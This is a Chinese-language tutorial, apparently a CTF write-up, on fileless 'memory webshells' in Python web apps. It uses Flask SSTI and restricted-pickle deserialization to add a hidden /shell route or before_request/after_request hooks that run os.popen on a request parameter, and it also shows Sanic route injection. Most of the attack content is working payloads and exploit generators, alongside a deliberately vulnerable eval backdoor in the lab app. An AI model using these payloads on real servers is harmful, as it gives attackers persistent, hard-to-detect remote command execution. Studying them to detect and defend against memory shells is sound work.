## 0x01前置知识

### 什么是内存马？

其实内存马是无文件马，利用中间件的进程执行某些恶意代码，不会有文件落地，相比于以往的传统文件上传webshell来说内存马的检测难度更大

### 什么是python内存马？

`Python 内存马`利用`Flask`框架中`SSTI`注入来实现, `Flask`框架中在`web`应用模板渲染的过程中用到`render_template_string`进行渲染, 但未对用户传输的代码进行过滤导致用户可以通过注入恶意代码来实现`Python`内存马的注入.

## 0x02旧版Flask下的内存马

为什么要说是旧版呢？这源于我在看一篇关于[FLASK下python内存马](https://www.cnblogs.com/gxngxngxn/p/18181936)的研究的文章的时候发现21年的flask2.x和新版的flask3.x的内存马攻击姿势是不一样的，具体如何我们一步步跟着走就知道了

参考文章：[flask不出网回显方式](https://longlone.top/%E5%AE%89%E5%85%A8/%E5%AE%89%E5%85%A8%E7%A0%94%E7%A9%B6/flask%E4%B8%8D%E5%87%BA%E7%BD%91%E5%9B%9E%E6%98%BE%E6%96%B9%E5%BC%8F/)

### 环境搭建

首先就是安装flask2.x版本的框架

```
pip install flask==2.0.0
```

成功后我们还需要安装**Werkzeug**，因为我之前是用的3.x，导致跟flask2.x不兼容了，所以得降版本

```
pip install "werkzeug>=2.0.0,<3.0.0"
```

正常的话直接安装就行

```
pip install werkzeug==2.0.0
```

安装好后我们输出一下flask的版本

```python
import flask

print(flask.__version__)
#2.0.0
```

然后我们测试一下框架

```python
from flask import Flask

app = Flask(__name__)

@app.route('/')
def Hello():
    return 'Hello World!'
```

然后运行框架访问5000端口就可以了

```
flask run
```

### 赛题环境

然后我们来搭一个测试环境

```python
# app.py
from flask import Flask, request, session, render_template_string, url_for, redirect
import pickle
import io
import sys
import base64
import random
import subprocess
from config import notadmin

app = Flask(__name__)


class RestrictedUnpickler(pickle.Unpickler):
    def find_class(self, module, name):
        if module in ['config'] and "__" not in name:
            return getattr(sys.modules[module], name)
        raise pickle.UnpicklingError("'%s.%s' not allowed" % (module, name))


def restricted_loads(s):
    """Helper function analogous to pickle.loads()."""
    return RestrictedUnpickler(io.BytesIO(s)).load()


@app.route('/')
def index():
    info = request.args.get('name', '')
    if info is not '':
        x = base64.b64decode(info)
        User = restricted_loads(x)
    return render_template_string('Hello')


if __name__ == '__main__':
    app.run(host='0.0.0.0', debug=True, port=5000)

```

```python
# config.py
notadmin = {"admin": "no"}


def backdoor(cmd):
    if notadmin["admin"] == "yes":
        s = ''.join(cmd)
        eval(s)

```

代码分析

这里的话会对传入的name参数进行一个base64解码和pickle反序列化操作，在RestrictedUnpickler函数中只允许从config模块加载该类，并且禁止加载带有下划线的方法

这道题的话其实一眼就可以看出来了，就是一个pickle反序列化的问题，但是这里的重点并不在于反序列化，而是在于如何利用eval函数去回显，但是赛题的环境靶机是不出网的，所以打不了反弹shell（自己本地搭的不知道怎么设置靶机不出网emmm）那么这时候又该怎么去让我们的命令回显呢？

### debug模式下的报错回显

在flask中，如果开启了debug模式的话，报错是会显示详细信息的，所以我们尝试手动控制报错语句让我们的命令执行并回显

构造exp

```python
from base64 import b64encode
from urllib.parse import quote


def base64_encode(s: str, encoding='utf-8') -> str:
    return b64encode(s.encode()).decode(encoding=encoding)


exc = "raise Exception(__import__('os').popen('whoami').read())"
exc = base64_encode(exc).encode()

opcode = b'''cconfig
notadmin
(S'admin'
S'yes'
u0(cconfig
backdoor
(S'exec(__import__("base64").b64decode(b"%s"))'
lo.''' % (exc)

print(quote(b64encode(opcode).decode()))
```

这里的话将 `whoami` 的结果作为异常消息。



成功执行命令并回显，但这个并不是我们内存马的内容，下面才是主要的

### 路由注入的内存马

这个的话就暂时不用赛题的环境了，我们自己搭一个测试的环境

```python
from flask import Flask ,request
from flask import render_template_string

app = Flask(__name__)

@app.route('/')
def Hello():
    return 'Hello World!'

@app.route('/test',methods=['POST','GET'])
def test():
    name = request.args.get('name', 'guest')
    template = '''
    <h1>Hello, %s!
    '''%(name)
    return render_template_string(template)
if __name__ == '__main__':
    app.run()
```

之前也说过，python内存马都是在ssti下进行注入的，这里参考了文章https://github.com/iceyhexman/flask_memory_shell，这篇文章讲的是如何利用flask去添加恶意路由，但是问题在于如何拿到我们正在运行的app

```python
import sys
sys.modules['__main__'].__dict__['app'].debug=False
sys.modules['__main__'].__dict__['app'].add_url_rule('/shell','shell',lambda :__import__('os').popen('dir').read())
```

直接在app.py中添加后访问/shell路由



成功执行dir命令，那我们试图构造一下poc

```python
url_for.__globals__['__builtins__']['eval']("app.add_url_rule('/shell', 'shell', lambda :__import__('os').popen(_request_ctx_stack.top.request.args.get('cmd', 'whoami')).read())",{'_request_ctx_stack':url_for.__globals__['_request_ctx_stack'],'app':url_for.__globals__['current_app']})
```

我们分析一下这个poc

```python
url_for.__globals__['__builtins__']['eval'](
    "app.add_url_rule(
        '/shell', 
        'shell', 
        lambda :__import__('os').popen(_request_ctx_stack.top.request.args.get('cmd', 'whoami')).read()
    )",
    {
        '_request_ctx_stack':url_for.__globals__['_request_ctx_stack'],
        'app':url_for.__globals__['current_app']
    }
)
```

`url_for`是`Flask`的一个内置函数, 通过`Flask`内置函数可以调用其`__globals__`属性, 该特殊属性能够返回函数所在模块命名空间的所有变量, 其中包含了很多已经引入的`modules`, 可以看到这里是支持`__builtins__`的，并且在`__builtins__`模块中是存在`eval`、`exec`等内置的命令执行函数的.

由于存在命令执行函数, 因此我们就可以直接调用命令执行函数来执行危险操作

```python
app.add_url_rule('/shell', 'shell', lambda :__import__('os').popen(_request_ctx_stack.top.request.args.get('cmd', 'whoami')).read())
```

这里的话是动态添加了一条路由shell，而处理该路由的函数是个由`lambda`关键字定义的匿名函数

在`Flask`中注册路由的时候是添加的`@app.route()`装饰器来实现的, 跟进查看其源码实现, 发现其调用了`add_url_rule`函数来添加路由.



然后我们跟进app.add_url_rule函数

```python
    def add_url_rule(
        self,
        rule: str,
        endpoint: str | None = None,
        view_func: ft.RouteCallable | None = None,
        provide_automatic_options: bool | None = None,
        **options: t.Any,
    ) -> None:
        """"""
        raise NotImplementedError
```

- rule: 函数对应的`URL`规则, 满足条件和`app.route`的第一个参数一样, 必须以`/`开头.
- endpoint: 端点, 即在使用`url_for`进行反转的时候, 这里传入的第一个参数就是`endpoint`对应的值, 这个值也可以不指定, 默认就会使用函数的名字作为`endpoint`的值.
- view_func: `URL`对应的函数, 这里只需写函数名字而不用加括号.
- provide_automatic_options: 控制是否应自动添加选项方法.
- options: 要转发到基础规则对象的选项.

结合我们的poc分析，`Payload`中`add_url_rule`函数的第三个参数定义了一个`lambda`匿名函数, 其中通过`os`库的`popen`函数执行从`Web`请求中获取的`cmd`参数值并返回结果, 其中该参数值默认为`whoami`。

然后我们再来看最后一部分

```python
{
        '_request_ctx_stack':url_for.__globals__['_request_ctx_stack'],
        'app':url_for.__globals__['current_app']
    }
```

这里的话是获取了一个_request_ctx_stack全局变量，以及获取当前的app

所以到这里分析完了之后我们就大概可以知道一整个流程是怎么做的了，`eval`函数的功能即动态创建一条路由, 并在后面指明了所需变量的全局命名空间, 保证`app`和`_request_ctx_stack`都可以被找到

我们通过ssti执行poc

```
?name={{url_for.__globals__['__builtins__']['eval']("app.add_url_rule('/shell', 'shell', lambda :__import__('os').popen(_request_ctx_stack.top.request.args.get('cmd', 'whoami')).read())",{'_request_ctx_stack':url_for.__globals__['_request_ctx_stack'],'app':url_for.__globals__['current_app']})}}
```

传参后访问/shell路由发现初始的cmd值whoami成功执行



然后传入cmd参数可以执行命令



## 0x03新版Flask下的内存马

参考文章https://www.cnblogs.com/gxngxngxn/p/18181936

我们现在将Flask更新一下，更新到Flask3. x版本

```
pip install --upgrade flask
```

此时我的版本是flask-3.1.1 werkzeug-3.1.3

然后我们试一下刚刚的poc发现出现报错了，这是为什么呢？



```
AssertionError: The setup method 'add_url_rule' can no longer be called on the application. It has already handled its first request, any changes will not be applied consistently.
Make sure all imports, decorators, functions, etc. needed to set up the application are done before running it.
```

出现了报错？难道是我debug没关吗？但是关掉了还是这样，这是为啥？在文章中师傅指出，这是因为触发了一个check函数才造成的无法调用，但是最终还是因为flask版本问题，所以就引出了新版本的flask内存马

首先我们得先了解两个方法before_request after_request

[[Flask 使用 after_request 和 before_request 处理特定请求的方法|极客教程 (geek-docs.com)](https://geek-docs.com/flask/flask-questions/69_flask_python_flask_after_request_and_before_request_for_a_specific_set_of_request.html)]

### 使用before_request方法



由于这是在请求之前执行的操作，所以会在我们每次请求的时候调用这个方法，我们跟进看一下这个函数



```python
before_request_funcs.setdefault(None, []).append(f)
```

扔给ai解释一下

| `before_request_funcs`  | Flask 应用内部的字典，存储所有请求前处理器（`before_request` 函数）。 |
| ----------------------- | ------------------------------------------------------------ |
| `.setdefault(None, [])` | 若字典中键 `None` 不存在，则将其值设为空列表 `[]`，否则返回现有值。 |
| `.append(f)`            | 将函数 `f` 添加到 `None` 键对应的列表中。                    |

这里只要我们设置f为一个匿名函数就行，类似之前的

```python
lambda :__import__('os').popen('whoami').read()
```

所以我们尝试调用这个函数

```python
eval("__import__('sys').modules['__main__'].__dict__['app'].before_request_funcs.setdefault(None,[]).append(lambda :__import__('os').popen('whoami').read())")
```



成功了

### 使用 after_request方法



同样的，这个方法是在每个请求处理完成之后执行的，我们跟进一下这个函数



和之前那个没区别，直接参考大佬的构造

```python
eval("app.after_request_funcs.setdefault(None, []).append(lambda resp: CmdResp if request.args.get('cmd') and exec(\"global CmdResp;CmdResp=__import__(\'flask\').make_response(__import__(\'os\').popen(request.args.get(\'cmd\')).read())\")==None else resp)")
```

在请求完成后调用,跟上面那个一样，唯一需要注意的是这个是需要定义一个返回值的，不然就报错。

放在ssti的话就是通过模块去调用eval函数了

除此之外还有其他的几个构造函数



## 0x04回顾赛题

既然学的差不多了，那我们重新返回刚刚的赛题看看

利用构造poc

```python
import os
import pickle
import base64
class A():
    def __reduce__(self):
        return (eval,("__import__(\"sys\").modules['__main__'].__dict__['app'].before_request_funcs.setdefault(None, []).append(lambda :__import__('os').popen(request.args.get('gxngxngxn')).read())",))

a = A()
b = pickle.dumps(a)
print(base64.b64encode(b))
```

```python
import os
import pickle
import base64
class A():
    def __reduce__(self):
        return (eval,("__import__('sys').modules['__main__'].__dict__['app'].after_request_funcs.setdefault(None, []).append(lambda resp: CmdResp if request.args.get('gxngxngxn') and exec(\"global CmdResp;CmdResp=__import__(\'flask\').make_response(__import__(\'os\').popen(request.args.get(\'gxngxngxn\')).read())\")==None else resp)",))

a = A()
b = pickle.dumps(a)
print(base64.b64encode(b))
```

## 0x05sanic下的内存马

第一种依旧是路由注入，但poc上有一些不一样

测试代码

```python
from sanic import Sanic
from sanic.response import json,text

app = Sanic("hello")


@app.route('/',methods=['GET','POST'])
async def hello(request):
    cmd = request.form.get('cmd')
    print(eval(cmd))

    return text("ok")

#
if __name__ == "__main__":
    app.run(host="0.0.0.0", port=8000)
```

### 路由注入

```python
app.add_route(lambda request: __import__("os").popen(request.args.get("cmd")).read(),"/shell", methods=["GET"])
```
